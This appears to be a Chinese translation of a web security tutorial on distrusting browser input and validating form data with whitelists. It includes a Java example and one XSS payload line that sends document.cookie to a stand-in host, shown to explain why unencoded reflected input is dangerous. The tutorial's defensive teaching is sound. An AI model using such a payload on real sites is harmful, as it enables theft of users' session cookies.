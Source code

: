 # 编码与校验

# Trust( 信赖 )

首先，在讨论具体的输入输出之前，我们需要来强调下自认为安全中最重要也是最根本的原则：Trust。作为一个开发者，也需要不断地问自己，我们相信来自于用户浏览器的请求吗？我们相信上游系统正常工作来保证了我们数据的干净与安全吗？我们相信服务器与浏览器之间的信道就不会被监听或者伪造吗？我们相信我们系统本身依赖的服务或者数据存储吗？呵呵，都不可信。当然，就像安全一样，Trust 也不是一个双选题，非黑即白。我们需要明白系统的风险忍受力与数据的安全边界。为了能够正确的、基于某个统一规则的预估，我们需要审视威胁与风险，这个评估方法与标准会在另一篇文章中讲解。

# Reject Unexpected Form Input( 拒绝未知的表单输入 )

HTML 表单本身就可能带来些好像很安全的错觉，表单的构建者肯定觉得他们限制了输入类型、做了数据校验，这样整个表单输入就是安全的。但确信无疑的是，这只是个错觉，尽管客户端地 JavaScript 脚本可以从安全地角度来说提供完整的校验。

## Untrusted Input

无论我们是否在客户端提供了表单验证或者是否使用了 HTTPs 连接，我们能够信赖来自用户浏览器的连接的比例都是 0。用户可以轻易地在发送之前修改标记，或者使用类似于 curl 这样的命令行来提交没有经过校验的数据。乃至于一个不明所以的用户可能在一个怀有恶意的网站莫名其妙地添了些内容。浏览器的同源策略并不能够避免来自于恶意站点的提交。为了保证输入数据的完整性，服务器端务必要进行数据校验。不过估计有人有疑问了，为啥说这个畸形的数据就会导致安全问题呢？这往往取决于你的应用业务逻辑与输出的编码，为了避免不可预知的行为、数据泄露与潜在攻击，需要在输入的数据与可执行代码之间架构一个过滤层。譬如，我们的表单里有一个选择的按钮来允许用户选择合适的通信类型，我们的业务逻辑代码可能是这样的：

```java
final String communicationType = req.getParameter("communicationType");
if ("email".equals(communicationType)) {
    sendByEmail();
} else if ("text".equals(communicationType)) {
    sendByText();
} else {
    sendError(resp, format("Can't send by type %s", communicationType));
}
```

上面代码危不危险取决于`sendError`这个方法是怎么定义的，而我们肯定无法确定下游的代码就一定是安全的。最好的选择就是我们在控制流中移除这个危险，而使用的方法就是输入验证。

## Input Validation

输入验证即是保证实际输入与应用预期的输入的一致性。超出预期的输入数据会导致我们系统抛出未知的结果，譬如逻辑崩坏、触发错误乃至于允许攻击者控制系统的一部分。其中像数据库查询这样的能够在服务端作为可执行代码的输入与 JavaScript 这样在客户端能够被执行的代码更是特别的危险。因此验证输入时保证系统安全性与防卫危险的第一道防线。开发者们在构建应用系统的过程中会进行一些基本的验证，譬如判断值是否为空或者是否为正数。而从安全的角度考虑，我们需要将输入限定到系统允许的最小集合中，譬如数值型值可以被限定在某个特定的范围内。譬如，系统不会允许用户将一个负值添加到购物车中。这种限制性的验证手段就是所谓的**positive validation**或者**whitelisting**。一个白名单可以用于限定某个具体的 URL 或者`yyyy/mm/dd`这样的时间日期。它可以限制输入的长度、单个字符的编码规范或者上面例子中的只有给定值可以被接受。另外一种考虑输入验证的思维角度就是把它当做服务端与消费者之间签订的一种协议，任何违背了这个协议的请求都是无效的并且被拒绝。你的这个协议越严格，你的系统在未知情况下遭受的风险就会越小。而当对于某个输入验证失败之后，开发者也要好好考虑应该如何反馈。最严格，也是最有争议的办法就是全部拒绝，并且没有任何反馈，不过要注意将这个事情通过日志或者监控记录下来。不过为啥一点反馈都没有呢？我们需要提供给用户哪些信息是无效的吗？这一点还是要取决于你的约定。在上面的例子中，如果你接收到了除了`email`或者`text`之外的内容，那你有可能被攻击了。不过如果你进行了反馈，可能正中全套。譬如如果开发者直接返回：俺们并不认识你传入的 communicationType，可能这个还无伤大雅，但是如果是这样的呢：

```
<script>new Image().src = ‘http://evil.martinfowler.com/steal?' + document.cookie</script>
```

这种情况下你就会面临一个用来盗取你的 Cookies 的 XSS 攻击代码，如果你一定要给用户反馈，你必须保证不会把不受信任的用户内容直接返回，而应该使用固定的提示信息。如果你不可避免地要把用户的输入反馈回去，你要保证它是被编码的。
